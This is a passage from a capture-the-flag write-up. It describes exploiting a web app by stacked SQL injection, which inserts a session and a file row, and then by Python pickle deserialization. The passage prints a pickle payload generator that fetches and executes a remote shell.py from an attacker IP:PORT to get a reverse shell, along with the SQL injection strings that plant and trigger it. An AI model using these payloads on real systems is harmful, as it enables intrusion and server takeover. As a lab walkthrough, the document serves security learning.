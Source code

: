 ```
admin1\;/**/INSERT/**/INTO/**/activesessions/**/VALUES/**/(\8de16447-c339-41c4-be6f-eaf3db51a661\,\admin1\,\2024-10-17 22:14:53.757220\);--
```
This will allow us to read the files stored in the database, including flag.txt, which unfortunately contains a dummy text instead of a flag:
> lol just kidding this isn't really where the flag is

This mock flag was expected, as it's also inserted into the db within the app.py code. One might hope that the actual live instance would provide the real flag, but that isn't the case. 

Next, looking further into the same function's code, we notice that `pickle` is utilized to load file content from base64.
```
    file_data = c.fetchone()
    if file_data is None:
        flash('File not found')
        return redirect(url_for('files'))
    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    try:    
        return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
    except TypeError:
        flash("ERROR: Failed to retrieve file. Are you trying to hack us?!?")
        return redirect(url_for('files'))
```
Google reveals that pickle has some serious vulnerabilities that we might exploit to execute commands on the server.

In Python, the pickle module is used to serialize and deserialize data. In this case, deserialization can also lead to remote code execution. More details can be found [here (Python-Pickle-RCE-Exploit)](https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit/tree/main) and [here (exploiting-python-pickle)](https://davidhamann.de/2020/04/05/exploiting-python-pickle/).

Let's try to insert our own file into the third and last table of our database, one we haven't inserted anything into so far.

To generate the file content, we can use the following pickle payload generation script:
```
import pickle
import base64
import requests
import sys

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,('python3 -c "import urllib.request; exec(urllib.request.urlopen(\\"http://IP:PORT/shell.py\\").read())" IP PORT',))

payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting Payload
print(payload)
```
We then need to utilize the base64 output as file content in our insertion into the files table.
```
username=admin&password=admin\;INSERT/**/INTO/**/files/**/VALUES/**/(\pwned.txt\,\BASE64_HERE\,NULL)--%20-
```
The final step of the execution chain is to trigger the script. Of course, the `shell.py` needs to be downloadable by the hosted instance of the challenge, so the reverse shell can be downloaded from the Python script and executed. Moreover, the script then requires a way to connect back to your listener.
